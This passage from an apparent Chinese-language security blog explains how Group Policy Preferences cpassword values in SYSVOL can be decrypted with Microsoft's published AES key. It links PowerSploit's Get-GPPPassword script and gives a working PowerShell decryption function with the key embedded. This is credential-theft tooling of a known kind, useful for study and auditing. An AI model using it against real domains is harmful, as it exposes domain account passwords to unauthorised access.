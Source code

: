 如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-25/2-7.png)

值得注意的是其中的cpassword项，保存的是加密后的内容`"9XLcz+Caj/kyldECku6lQ1QJX3fe9gnshWkkWlgAN1U"`

加密方式为AES 256，虽然目前AES 256很难被攻破，但是微软选择公开了该AES 256加密的私钥，地址如下：

https://msdn.microsoft.com/en-us/library/cc422924.aspx

借助该私钥，我们就能还原出明文

还原方式可采用Chris Campbell @obscuresec开源的powershell脚本，地址如下：

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1

该脚本可在域内主机上执行，能够自动查询共享文件夹\SYSVOL中的文件，还原出所有明文密码

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-25/3-1.png)

当然，仅仅为了解密`cpassword="9XLcz+Caj/kyldECku6lQ1QJX3fe9gnshWkkWlgAN1U"`，我们可以对以上powershell脚本的功能简化

简化代码如下：

```
function Get-DecryptedCpassword {
    [CmdletBinding()]
    Param (
        [string] $Cpassword 
    )

    try {
        #Append appropriate padding based on string length  
        $Mod = ($Cpassword.length % 4)
        
        switch ($Mod) {
        '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
        '2' {$Cpassword += ('=' * (4 - $Mod))}
        '3' {$Cpassword += ('=' * (4 - $Mod))}
        }

        $Base64Decoded = [Convert]::FromBase64String($Cpassword)
        
        #Create a new AES .NET Crypto Object
        $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
        [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                             0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)
        
        #Set IV to all nulls to prevent dynamic generation of IV value
        $AesIV = New-Object Byte[]($AesObject.IV.Length) 
        $AesObject.IV = $AesIV
        $AesObject.Key = $AesKey
        $DecryptorObject = $AesObject.CreateDecryptor() 
        [Byte[]] $OutBlock = $DecryptorObject.TransformFinalBlock($Base64Decoded, 0, $Base64Decoded.length)
        
        return [System.Text.UnicodeEncoding]::Unicode.GetString($OutBlock)
    } 
    
    catch {Write-Error $Error[0]}
}  
Get-DecryptedCpassword "9XLcz+Caj/kyldECku6lQ1QJX3fe9gnshWkkWlgAN1U"
```

